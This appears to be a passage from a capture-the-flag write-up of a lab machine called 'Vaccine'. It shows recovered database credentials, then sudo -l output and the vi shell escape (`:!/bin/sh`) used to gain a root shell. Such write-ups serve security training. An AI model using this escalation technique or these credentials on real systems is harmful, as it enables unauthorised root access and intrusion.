 ![Desktop View](/assets/img/Vaccine/credentials.png){: }

```yml
dbname: carsdb
user: pstgres
password: P@s5w0rd!
```

This machine only has a root flag, so let's see if we can become a root!

## Privilege Escalation
---

Running `sudo -l`, we can see the privileges the user _postgres_ can run.

> Unless you upgrade your shell (_explained how to stabilize it just above_), you will get the `error` "_no tty present and no askpass program specified_".
{: .prompt-warning}

```console
postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
[sudo] password for postgres:
Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
postgres@vaccine:/var/lib/postgresql/11/main$
```

We can see _postgres_ can run the following:

```console
$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

So by running it and adding `:!/bin/sh` inside the vi editor, we got ourselves a root shell.
